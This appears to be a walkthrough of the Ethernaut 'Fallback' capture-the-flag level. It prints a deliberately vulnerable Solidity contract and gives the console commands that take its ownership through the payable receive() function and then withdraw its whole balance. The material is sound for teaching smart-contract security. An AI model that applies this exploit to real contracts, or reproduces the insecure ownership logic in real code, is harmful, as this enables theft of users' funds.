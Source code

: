 # Fallback


Read the contract code carefully

> Challenge : Claim the ownership of the contract and reduce its balance to 0.

  
Explore and understand 
>1. How to send ether when interacting with an ABI
>2. How to send ether outside of the ABI
>3. Converting to and from wei/ether units (see help() command)
>4. Fallback methods

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

Read the following resources before attempting the Hack: 
1. Truth About **Fallback funtion** : https://tinyurl.com/yckyejw2
2. Ether which is native currrency of Ethreum has several units
    * wei is smallest unit.
    * 1 ether = 1000000000000000000 wei.
    * “wei” are the smallest ether unit, and you should always make calculations in wei and convert only for display reasons.
    * Read more: https://tinyurl.com/4mfpzsrz

## Lets Hack it! 
To get ownership of the contract note these  
1. `contribute()` function
2. `receive()` – a payable fallback function

First of all request a level instance.

Lets looks at first method 

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

In this function we can only get ownership if our contribution to the contract is more than the owner. constructor already sets contract owner contribution to 1000 Eth. So we must contribute more than that to get the ownership. But we got one more problem here, we can only contribute less than 0.001 eth per transaction due to `require(msg.value < 0.001 ether);` check. 
To beat the present owner’s contribution we need to send many times to flip 1000 Eth but we don’t have that much time so we will look for other method.

2.  calling fallback funtion 

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

We should bypass `require(msg.value > 0 && contributions[msg.sender] > 0);` check first.

Let's contribute some amount by typing in console and then wait for few seconds.
	`contract.contribute({value: toWei("0.0001")}) // using toWei() here.`
   
now we will send some amount to trigger fallback function.

`contract.sendTransaction({value: toWei("0.001")}) //fallback function is payable so it will be triggered.`

Bypass Successful. 
Bravo! We got the ownership of the contract.

check the ownership : `contract.owner() == player`

wait! The hack is not done yet. We have to withdraw all the funds of the contract and to do so we should call `withdraw()` function. 
Note withdraw function can only be called by the owner as it has onlyOwner modifier. We are owner now :P

call `contract.withdraw()`

submit the instance. 


 

